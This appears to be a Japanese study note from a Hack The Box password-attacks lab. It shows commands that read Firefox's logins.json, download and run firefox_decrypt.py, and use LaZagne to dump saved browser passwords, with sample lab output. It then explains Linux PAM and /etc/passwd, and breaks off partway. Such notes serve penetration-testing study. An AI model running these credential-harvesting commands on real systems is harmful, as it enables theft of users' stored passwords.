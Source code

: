 ```shell
cat .mozilla/firefox/*.default-release/logins.json | jq .
```

何か中に入っていたら、firefox_decrypt.pyで`logins.json`をデコードする
[[File Transfer]]

```
wget https://raw.githubusercontent.com/unode/firefox_decrypt/refs/heads/main/firefox_decrypt.py
```

```shell
snowyowl644@htb[/htb]$ python3 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

LaZagneでもブラウザの認証情報を収集できる
```shell
python3 laZagne.py browsers
```

# Passwd、Shadow & Opasswd

## Linux の認証メカニズム

- Linux では **Pluggable Authentication Modules（PAM）** を使用するのが一般的。
- PAM の主要モジュール:
    - **`pam_unix.so` / `pam_unix2.so`**: システムライブラリと API を使い、アカウント情報を更新。
    - **LDAP, mount, Kerberos** などの他の認証モジュールも利用可能。
- Debian 系では、PAM のモジュールは **`/usr/lib/x86_x64-linux-gnu/security/`** に配置。
- `passwd` コマンドでパスワード変更時、PAM が情報の保存・管理を行う。

##  /etc/passwd の役割

- システム上の **ユーザー情報（ユーザー名, UID, GID, ホームディレクトリ, ログインシェルなど）** を格納するファイル。
- かつては **パスワードのハッシュ値** も含まれていたが、セキュリティ上の理由で現在は `/etc/shadow` に分離。
- **一般ユーザーでも読み取り可能（world-readable）** であり、コマンドやサービスがユーザー情報を参照するのに使用。

## /etc/passwd のフォーマット
